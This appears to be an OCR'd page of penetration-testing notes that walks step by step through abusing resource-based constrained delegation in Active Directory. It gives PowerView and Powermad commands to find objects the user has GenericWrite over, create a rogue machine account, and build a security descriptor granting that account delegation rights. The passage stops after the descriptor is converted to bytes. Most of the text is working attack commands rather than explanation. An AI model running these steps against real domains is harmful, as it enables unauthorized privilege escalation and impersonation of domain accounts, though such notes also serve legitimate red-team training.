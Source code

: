 Enumeration of account with generic write -

```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

[Look for ObjectDN & ActiveDirectoryRights]

- Once we have GenericWrite, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.
- Once a SID is added, we will act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS. To do this, we either have to obtain the password hash of a computer account or simply create a new computer account object with a selected password.
- By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the ms-DS-MachineAccountQuota property in the Active Directory domain object.
- We can enumerate ms-DS-MachineAccountQuota with the PowerView ==Get-DomainObject== method:

```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

- Creating computer account with ==Powermad== -
```powershell
PS C:\tools> . .\powermad.ps1
PS C:\tools> New-MachineAccount -MachineAccount napster -Password $(ConvertToSecureString 'h4x' -AsPlainText -Force)
[+] Machine account myComputer added
```

- The msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.

1. Obtain the SID of the controlled account with SPN (e.g. Computer account) :

[ Using Poverview]

```powershell
$ComputerSid = Get-DomainComputer "napster" -Properties objectsid | Select -Expand objectsid
```

2. Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE :

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
```

Converting the SecurityDescriptor to a byte array -

```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```powershell
$SD.GetBinaryForm($SDBytes, 0)
```
